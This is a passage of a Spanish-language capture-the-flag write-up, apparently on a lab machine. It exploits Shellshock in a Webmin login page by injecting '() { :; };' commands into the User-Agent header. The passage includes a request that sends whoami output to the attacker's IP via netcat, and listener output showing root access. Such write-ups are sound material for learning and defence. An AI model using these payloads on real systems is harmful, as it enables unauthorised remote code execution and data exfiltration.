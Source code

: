 ```plaintext
POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
Cookie: testing=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.7:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://10.10.10.7:10000
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

page=%2F&user=admin&pass=admin
```

Y la vulnerabilidad seguiría esta estructura en la cabecera:

```sh
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
# /bin/eject te extrae la disquetera. Pero claro..usaríamos otro comando
```

Podríamos lanzarnos el output del comando whoami a nuestra IP con netcat; `whoami | nc 10.10.14.23 443`. Me pongo en escucha con netcal; `nc -nlvp 443`. 

```plaintext
POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
Cookie: testing=1
User-Agent: () { :; }; whoami | nc 10.10.14.23 443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.7:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
... SNIP ...

page=%2F&user=admin&pass=admin
```

Y nos llega por el **nc**:

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.7] 50466
root
```
